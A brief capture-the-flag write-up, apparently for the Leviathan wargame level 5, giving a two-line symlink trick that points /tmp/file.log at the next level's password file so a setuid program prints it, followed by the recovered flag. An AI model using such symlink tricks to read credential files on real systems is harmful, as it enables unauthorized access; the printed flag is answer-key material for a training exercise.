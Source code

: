 # Trick

```bash
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
./leviathan5
```

# Flag

```
YZ55XPVk2l
```
